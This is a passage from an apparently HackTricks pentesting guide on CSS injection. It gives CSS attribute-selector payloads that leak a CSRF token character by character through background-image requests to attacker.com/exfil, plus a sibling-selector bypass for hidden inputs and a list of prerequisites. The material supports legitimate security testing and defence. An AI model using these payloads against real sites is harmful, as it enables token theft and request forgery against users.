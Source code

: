# CSS Injection

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## CSS Injection

### Attribute Selector

The main technique to exfiltrate information via CSS Injection is to try to **match a text with CSS** and in case that **text exist** **load some external resource, like:**

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

However, note that this technique won't work if, in the example, the **csrf name input** is of **type hidden** (and they usually are), because the background won't be loaded.\
However, you can **bypass** this impediment by, instead of making the hidden element load a background, **just make anything after it load the background:**

```css
input[name=csrf][value^=csrF] ~ * {
    background-image: url(https://attacker.com/exfil/csrF);
}
```

Some code example to exploit this: [https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e)

#### Prerequisites

1. The CSS injection needs to allow for sufficiently long payloads
2. Ability to **frame the page to trigger CSS re-evaluation of newly generated payloads**
3. Ability to use **externally hosted images** (could be blocked by CSP)

### @import

The previous technique has some drawbacks, check the prerequisites. You either need to be able to **send multiple links to the victim**, or you need to be able to **iframe the CSS injection vulnerable page**.
